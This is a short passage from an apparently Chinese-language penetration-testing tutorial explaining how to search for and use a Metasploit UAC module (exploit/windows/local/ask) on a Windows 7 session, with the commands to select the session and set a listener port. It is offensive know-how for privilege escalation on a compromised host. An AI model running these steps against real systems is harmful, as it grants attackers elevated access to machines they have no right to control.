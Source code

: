 #### 7.2.1.2. 搜索uac

这里先搜索uac，因为这里面有些uac可能对不同的系统会有不同的作用。

```
search uac ##搜索
```

<img src="assets/m3p7NSWEgY4a9iO.png" alt="image-20230327161629588" style="zoom: 50%;" />

#### 7.2.1.3. 使用uac

这里我们使用的是Windows7，那么我们就使用exploit/windows/local/ask来执行。

```
use exploit/windows/local/ask    ##选择模块
sessions         ##查看后台进程
set session 1    ##选择进程
set lport 5555   ##设置监听端口，有时候返回回来会出现错误，所以就另起一个监听。
```

![image-20230327194246924](assets/5fOz2e93ShWR6BH.png)
